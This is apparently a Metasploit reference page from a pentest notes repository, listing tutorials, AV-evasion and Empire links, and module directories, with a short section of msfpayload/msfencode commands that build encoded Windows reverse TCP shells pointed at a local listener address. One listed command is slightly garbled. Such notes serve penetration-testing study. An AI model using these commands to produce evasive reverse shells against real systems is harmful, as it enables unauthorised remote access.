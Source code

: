# Metasploit Framework

### General

* [What is Metasploit?](https://www.youtube.com/watch?v=TCPyoWHy4eA)

* [Metasploit - github.io](https://metasploit.github.io/Metasploit.md)

  * It is the official “reference” page for the metasploit framework

* [Facts and Myths about AV Evasion with the Metasploit Framework](http://schierlm.users.sourceforge.net/avevasion.html)

* [MSF/Meterpreter cmd reference](http://hacking-class.blogspot.com/2011/08/metasploit-cheat-sheet-metasploit.html)

* [Empire - Powershell Post-Exploitation Agent](http://www.powershellempire.com/)

  * Empire is a pure PowerShell post-exploitation agent built on
    cryptologically-secure communications and a flexible architecture. Empire
    implements the ability to run PowerShell agents without needing
    powershell.exe, rapidly deployable post-exploitation modules ranging from
    key loggers to Mimikatz, and adaptable communications to evade network
    detection, all wrapped up in a usability-focused framework.

* http://it-ovid.blogspot.com/2012/02/metasploit-and-meterpreter.html

### Metasploit Framework - Payload Encoding

* List all available payloads and search for windows reverse tcp

  * `shellsmsfpayload -l | grep windows | grep shell | grep reverse | tcp`

* List available encoders

  * `msfencode -l`

* Reverse self-contained (not staged) command shell: 341 bytes

  * `msfpayload windows/shell_reverse_tcp LHOST=192.168.6.1 R | msfencode -e
    x86/shikata_ga_nai -b '\x00\x0a\x0b\x0d\x90' -t c`

* Windows Command Shell, reverse Ordinal TCP Stager (Np NX or Win7)

  * Use msf multi/handler to listen and upload remainder of the shellcode (stage
    2)
  * `msfpayload windows/shell/reverse_ord_tcp LHOST=192.168.6.1 R | msfencode -e
    x86/shikata_ga_nai -b '\x00\x0a\x0b\x0d\x90' -t c`

* Generic Syntax

  * `msfpayload <payload> <options> <output>| ./msfencode -e <encoder> -b <bad
    bytes> -t <output format>`

### Contributing to Metasploit

* [Writing an Exploit](https://github.com/rapid7/metasploit-framework/wiki/How-to-get-started-with-writing-an-exploit)
* [Writing an Exploit for Metasploit by Corelan](https://www.corelan.be/index.php/2009/08/12/exploit-writing-tutorials-part-4-from-exploit-to-metasploit-the-basics/Metasploit.md)
* [Writing an Auxiliary module](https://github.com/rapid7/metasploit-framework/wiki/How-to-get-started-with-writing-an-auxiliary-module)
* [Writing a Post-Exploitation module](https://github.com/rapid7/metasploit-framework/wiki/How-to-get-started-with-writing-a-post-module)
* [Style tips for writing a Metasploit module](https://github.com/rapid7/metasploit-framework/wiki/Style-Tips)
* [Metasploit Framework Module Github](https://github.com/rapid7/metasploit-framework/tree/master/modules)

  * Easiest way of seeing the most current listing of any modules.
  * All are Github pages for the Metasploit project

* [Metasploit Framework Wiki](https://github.com/rapid7/metasploit-framework/wiki)
* [Auxiliary Modules](https://github.com/rapid7/metasploit-framework/tree/master/modules/auxiliary)
* [Auxiliary Module Fuzzers](https://github.com/rapid7/metasploit-framework/tree/master/modules/auxiliary/fuzzers)
* [Denial-of-Service Modules](https://github.com/rapid7/metasploit-framework/tree/master/modules/auxiliary/dos)
* [Auxiliary Gather Modules](https://github.com/rapid7/metasploit-framework/tree/master/modules/auxiliary/gather)
* [Auxiliary Scanner Modules](https://github.com/rapid7/metasploit-framework/tree/master/modules/auxiliary/scanner)
* [Server Auxiliary Modules](https://github.com/rapid7/metasploit-framework/tree/master/modules/auxiliary/server)
* [Auxiliary Spoofing Modules](https://github.com/rapid7/metasploit-framework/tree/master/modules/auxiliary/spoof)
* [Auxiliary VOIP Modules](https://github.com/rapid7/metasploit-framework/tree/master/modules/auxiliary/voip)
* [Encoder Modules](https://github.com/rapid7/metasploit-framework/tree/master/modules/encoders)
* [Payloads - Singles](https://github.com/rapid7/metasploit-framework/tree/master/modules/payloads/singles)
* [Payloads - Singles - Windows](https://github.com/rapid7/metasploit-framework/tree/master/modules/payloads/singles/windows)
* [Payloads - Singles - Linux x86](https://github.com/rapid7/metasploit-framework/tree/master/modules/payloads/singles/linux/x86)
* [Payloads - Stagers](https://github.com/rapid7/metasploit-framework/tree/master/modules/payloads/stagers)
* [Payloads - Stagers - Windows](https://github.com/rapid7/metasploit-framework/tree/master/modules/payloads/stagers/windows)
* [Payloads - Stagers - Linux x86](https://github.com/rapid7/metasploit-framework/tree/master/modules/payloads/stagers/linux/x86)
* [Exploits](https://github.com/rapid7/metasploit-framework/tree/master/modules/exploits)
* [Exploits - Windows](https://github.com/rapid7/metasploit-framework/tree/master/modules/exploits/windows)
* [Exploits - Linux](https://github.com/rapid7/metasploit-framework/tree/master/modules/exploits/linux)
* [Exploits - Multi-Platform](https://github.com/rapid7/metasploit-framework/tree/master/modules/exploits/multi)
* [Post-Exploitation Modules](https://github.com/rapid7/metasploit-framework/tree/master/modules/post)
* [Post-Exploitation Windows Modules](https://github.com/rapid7/metasploit-framework/tree/master/modules/post/windows)
* [Post-Exploitation Linux Modules](https://github.com/rapid7/metasploit-framework/tree/master/modules/post/linux)
